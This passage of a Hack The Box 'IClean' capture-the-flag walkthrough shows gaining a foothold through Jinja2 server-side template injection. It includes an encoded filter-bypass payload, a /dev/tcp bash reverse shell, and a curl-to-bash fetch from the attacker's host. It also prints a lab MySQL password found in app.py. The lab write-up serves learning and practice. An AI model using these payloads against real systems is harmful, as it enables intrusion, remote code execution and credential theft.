 ![SSTI test results](/images/HTB-IClean/SSTI-test2.png)

After numerous fails I found a working payload on [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#filter-bypasses).

```
{%25with+a%3drequest|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%25}{%25print(a)%25}{%25endwith%25}
```

![SSTI payload](/images/HTB-IClean/SSTI-payload.png)

The next step is to prompt the server to run our reverse shell. To do this, we’ll establish a Python server on our local machine and set up a listener on a port of our choosing. This will allow us to receive incoming connections from the reverse shell.

Below is the content of my reverse shell file.

```
#!/bin/bash

sh -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1
```

> The reverse shell is inside the `revshell.sh` file. After we send the request containing our payload, the server fetches it from our python server and executes it. 

```
{%25with+a%3drequest|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl+http%3a//<IP_ADDRESS>%3a<PORT_NUMBER>/revshell.sh+|+bash')|attr('read')()%25}{%25print(a)%25}{%25endwith%25}
```

We get a shell as `www-data`. 

![IClean foothold](/images/HTB-IClean/foothold.png)

## Privilege Escalation

In `/home` we are unable to access the directory `consuela`.

![IClean access denied](/images/HTB-IClean/consuella-denied.png)

Looking around we find some database credentials  in `opt/app/app.py`.

![IClean database credentials](/images/HTB-IClean/db-credentials.png)

After running `ss -lntp` we see a service running on port 3306 which is `MySQL` default port. 

![IClean internal services](/images/HTB-IClean/services.png)

We connect to the database with `iclean:pxCsmnGLckUb`

```
mysql -u iclean -p
```
